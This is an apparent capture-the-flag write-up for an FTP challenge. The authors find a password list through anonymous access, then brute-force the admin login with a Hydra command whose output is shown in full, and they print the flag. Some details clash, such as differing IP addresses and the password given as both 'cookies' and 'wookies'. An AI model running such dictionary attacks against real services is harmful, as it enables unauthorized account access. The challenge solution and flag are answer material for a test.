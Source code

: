# cuteFTP (Misc - 120 pts)

### [~$ cd ..](../)

> A chaotic admin set up an FTP challenge but might have misplaced some files. 
> 63.35.125.97:21

We firstly logged in as anonymous without password. We were able to access to some files and folders. 

In those files we found a lot of pictures of cats, [lists of words](kublaiBADPASSWORDS.list) and a [list of users](users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](README.txt), here is the content:
> Please don't abuse this server! This FTP server is used to share my favourite cats (there's only one thing I like more than cats). Feel free to browse through them and download your favourites. If you want to add your own cats shoot me a mail (darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you add will then appear in the /users/username/public folder.
> If you're into lists instead of cats you might also like my other FTP server. I sometimes get confused so if I misplaced a list on this server please let me know.
> ~JarJar B. McPaws~

And a [thanksto.txt](thanksto.tx) containing:
> Thanks to:
> -Maxogden (for helping me start my collection)
> -Charlottd
> -Charlottf
> -Dennis

Thanks to the list, we tought about launching a dictionnary attack on the FTP service to try to log in with the admin account. 

We decided to use Hydra to perform this action.

> hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list
> 	Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

>	Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09
> 	
>	[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries (l:1/p:666), ~42 tries per task
>	[DATA] attacking ftp://52.17.165.245:21/
>	[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active
>	[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active
>		[21][ftp] host: 52.17.165.245   login: admin   password: cookies
>	1 of 1 target successfully completed, 1 valid password found
>	[WARNING] Writing restore file because 2 final worker threads did not complete until end.
>	[ERROR] 2 targets did not resolve or could not be connected
>	[ERROR] 16 targets did not complete
>	Hydra (http://www.thc.org/thc-hydra) finished at 2019-03-30 11:36:07

We are now able to log in with the admin account and the password wookies.

On this account we found a a file in the following path [/admin/flag.txt](flag.txt): CSC{I'm_a_flag-da-be-die-dabe-flag!}
 